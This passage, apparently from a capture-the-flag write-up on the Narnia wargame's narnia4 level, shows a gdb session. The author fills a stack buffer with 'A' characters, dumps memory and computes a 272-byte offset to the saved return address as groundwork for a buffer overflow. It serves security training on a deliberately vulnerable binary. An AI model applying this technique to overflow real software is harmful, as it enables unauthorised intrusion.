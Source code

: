 We put a breakpoint right before the Stack ends:

```sh
(gdb) b *main+182
Breakpoint 1 at 0x80484fa
```

Running:

```sh
(gdb) r
Starting program: /games/narnia/narnia4 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

We see that the frame starts at **0xffffd4cc**:

```sh
(gdb) x/90xw $esp
0xffffd4a0: 0xffffd4cc  0xffffd7be  0x00000021  0xf7ff7d54
0xffffd4b0: 0xf7e2ae38  0x00000000  0x00000026  0xffffffff
0xffffd4c0: 0x00000000  0x00000000  0x00000001  0x41414141
0xffffd4d0: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd4e0: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd4f0: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd500: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd510: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd520: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd530: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd540: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd550: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd560: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd570: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd580: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd590: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd5a0: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd5b0: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd5c0: 0x41414141  0x41414141  0x41414141  0x00000000
0xffffd5d0: 0x08048500  0x00000000  0x00000000  0xf7e404b3
0xffffd5e0: 0x00000002  0xffffd674  0xffffd680  0xf7fcf000
0xffffd5f0: 0x00000000  0xffffd61c  0xffffd680  0x00000000
0xffffd600: 0x0804824c  0xf7fcaff4
```

Taking a look at the information of the frame gives us the return address, from which we find the size of the Stack:

```sh
(gdb) i f
Stack level 0, frame at 0xffffd5e0:
 eip = 0x80484fa in main; saved eip 0xf7e404b3
 Arglist at 0xffffd5d8, args:
 Locals at 0xffffd5d8, Previous frame's sp is 0xffffd5e0
 Saved registers:
  ebp at 0xffffd5d8, edi at 0xffffd5d4, eip at 0xffffd5dc
(gdb) p 0xffffd5dc-0xffffd4cc
$1 = 272
```
